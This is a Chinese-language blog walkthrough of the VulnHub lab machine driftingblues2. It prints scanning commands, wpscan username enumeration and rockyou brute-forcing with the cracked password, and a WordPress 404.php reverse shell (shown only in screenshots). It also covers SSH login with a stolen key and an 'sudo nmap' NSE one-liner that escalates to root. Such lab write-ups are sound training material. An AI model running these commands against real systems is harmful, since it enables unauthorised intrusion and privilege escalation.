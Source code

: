 ```yaml
---
title: driftingblues2 VulnHub Walkthrough
date: 2021-10-12 16:31:08
categories:
- 渗透测试
tags:
- VulnHub
---
```


### 信息收集

#### 主机探测

```
arp-scan -l
```

![](https://i.loli.net/2021/10/12/DINClwUz2k5udbh.png)

#### 端口扫描

```
nmap -sC -sV -p- 192.168.62.171
```

![](https://i.loli.net/2021/10/12/VsW7DF1kaZpogI2.png)

开放端口：21(ftp)、22(ssh)、80(http)

可以匿名访问ftp服务，有一张图片，应该有隐藏的信息

![](https://i.loli.net/2021/10/12/pk4b8jfBOyKsQSg.png)

<img src="https://i.loli.net/2021/10/12/dEbtcZYKkvzCOBG.jpg" style="zoom: 25%;" />

图片先放着，访问80端口没什么东西，扫一下目录

```
dirsearch -u http://192.168.62.171/
```

![](https://i.loli.net/2021/10/12/orNt14jPdbzLQYT.png)

有个blog的路径，是wordpress搭建的，修改一下host文件再访问一下

![](https://i.loli.net/2021/10/12/EPg4VSAOrdJUueH.png)

![](https://i.loli.net/2021/10/12/Em8lMOsAgatJIwj.png)

用wpscan简单扫描没有发现有用信息，那就枚举一下出用户名

```
wpscan --url http://driftingblues.box/blog/ -e u
```

![](https://i.loli.net/2021/10/12/xW2hE8bMkJrjP9O.png)

再通过获取到的用户名albert，试试爆破密码

```
wpscan --url http://driftingblues.box/blog/ -U albert -P /usr/share/wordlists/rockyou.txt
```

![](https://i.loli.net/2021/10/12/6jwKtnJf4hSdF9o.png)

稍微等了一会就成功爆破出来了密码，那就用获取到的账号密码`albert:scotland1`登录后台

![](https://i.loli.net/2021/10/12/h6NLpYQCBe82ds3.png)

### Get Shell

通过修改主题的404.php来反弹shell

![](https://i.loli.net/2021/10/12/9ONakjD2EB6ny4u.png)

修改后先开启一个监听端口来接受shell

![](https://i.loli.net/2021/10/12/a8W6ZkJjGcMBlpF.png)

访问404.php成功反弹shell

![](https://i.loli.net/2021/10/12/lDcPjpYvOqwobHB.png)

![](https://i.loli.net/2021/10/12/7DuRciGkKm6JsyT.png)

靶机有python环境，可以获取一个交互式的shell

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![](https://i.loli.net/2021/10/12/HuvbSQOLFjsTfZp.png)

进入到freddie的家目录，有ssh的key，我们将id_rsa下载到本地，进行免密登录

![](https://i.loli.net/2021/10/12/WAjV4Iuz61xQXi5.png)

```
ssh freddie@192.168.62.171 -i id_rsa
```

![](https://i.loli.net/2021/10/12/43WwvJiHIplaFgf.png)

得到第一个flag

<img src="https://i.loli.net/2021/10/12/1taln9PfMDVAb3v.png" style="zoom: 67%;" />

### 提权

![](https://i.loli.net/2021/10/12/A9zQxtDdcq8kEjp.png)

可以看出来，接下来需要用nmap提权

```
echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
```

![](https://i.loli.net/2021/10/12/yVPcajOXnBzpASK.png)

执行完获得root权限，但此时是看不到输入的，接着执行

```
reset
```

这时就可以获取第二个flag了

<img src="https://i.loli.net/2021/10/12/b5u36MeOmTI7w41.png" style="zoom:67%;" />

所以，一开始获取的图片还是没用上

